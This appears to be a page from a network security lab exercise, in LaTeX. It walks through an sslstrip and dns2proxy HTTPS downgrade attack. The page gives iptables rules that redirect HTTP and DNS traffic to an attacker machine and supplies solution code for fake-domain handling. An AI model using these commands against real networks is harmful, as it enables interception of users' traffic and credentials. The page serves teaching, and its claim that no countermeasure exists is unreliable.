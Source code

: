 \documentclass[final]{article}
\begin{document}
\noindent To correctly mount this attack, you have to follow this procedure:
\begin{itemize}
  \item Mount a MitM attack
  \item Implement the missing code in \texttt{sslstrip/URLMonitor.py} and execute it \texttt{./sslstrip.py -l <sslstrip\_port>}
  \item Using iptables, create a specific rule to redirect the traffic from the port 80 to the port where sslstrip is running\\
  \texttt{sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <sslstrip\_port>}
  \item Implement the missing code in \texttt{dns2proxy.py} and execute it \texttt{./dns2proxy.py}
  \item Create a specific rule to redirect all the traffic in the attacker virtual machine changing the destination ip.\\
  \texttt{sudo iptables -t nat -A PREROUTING -p udp --dport 53 -i enp0s8 -j DNAT --to <attacker\_ip>}
  \item Analyze the behaviour using Wireshark, being sure that all this trick has being working properly
\end{itemize}


\subsubsection{Countermeasures}
Unfortunately, there is no default technique to prevent this type of attack. The user must always check the correctness of the URL in the address bar.

\subsubsection{Solution of the exercise
}
\textbf{Missing code in \texttt{sslstrip/URLMonitor.py}}
\lstset{language=Python}
\begin{lstlisting}
  if host[:4] == "www.":
      fake_domain = "w" + host
  else:
      fake_domain = "web" + host

\end{lstlisting}

\noindent\textbf{Missing code in \texttt{dns2proxy.py}}
\begin{lstlisting}
  if host[:5] == 'wwww.':
      real_domain = host[1:]
  elif host[:3] == 'web':
      real_domain = host[3:]

\end{lstlisting}

\FloatBarrier


\end{document}
